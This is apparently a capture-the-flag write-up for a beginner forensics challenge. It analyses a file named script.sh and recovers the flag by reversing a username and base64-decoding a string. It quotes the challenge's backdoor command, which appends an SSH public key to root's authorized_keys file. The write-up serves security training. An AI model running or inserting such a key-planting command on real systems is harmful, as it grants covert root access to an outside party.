 > The Fray is upon us, and the very first challenge has been released! Are you ready factions!? Considering this is just the beginning, if you cannot musted the teamwork needed this early, then your doom is likely inevitable.

In this challenge we received a file called `script.sh`.

Inside the file we see a command that allows the user `tS_u0y_ll1w{BTH` to login:

```bash
echo "ssh-rsa AAAAB4NzaC1yc2EAAAADAQABAAABAQCl0kIN33IJISIufmqpqg54D7s4J0L7XV2kep0rNzgY1S1IdE8HDAf7z1ipBVuGTygGsq+x4yVnxveGshVP48YmicQHJMCIljmn6Po0RMC48qihm/9ytoEYtkKkeiTR02c6DyIcDnX3QdlSmEqPqSNRQ/XDgM7qIB/VpYtAhK/7DoE8pqdoFNBU5+JlqeWYpsMO+qkHugKA5U22wEGs8xG2XyyDtrBcw10xz+M7U8Vpt0tEadeV973tXNNNpUgYGIFEsrDEAjbMkEsUw+iQmXg37EusEFjCVjBySGH3F+EQtwin3YmxbB9HRMzOIzNnXwCFaYU5JjTNnzylUBp/XB6B user@tS_u0y_ll1w{BTH" >> /root/.ssh/authorized_keys
```

The user is the beginning of our flag.

```bash
python3 -c 'print("tS_u0y_ll1w{BTH"[::-1])'
```

After finding the beginning of the flag I haven't found anything intersting... But on the last line of the script we see this command:

```bash
bash -c 'NG5kX3kwdVJfR3IwdU5kISF9'
```

Just to make sure I decoded in base 64 and got the end of the flag:

```bash
echo 'NG5kX3kwdVJfR3IwdU5kISF9' | base64 -d
```

Flag: HTB{w1ll_y0u_St4nd_y0uR_Gr0uNd!!}
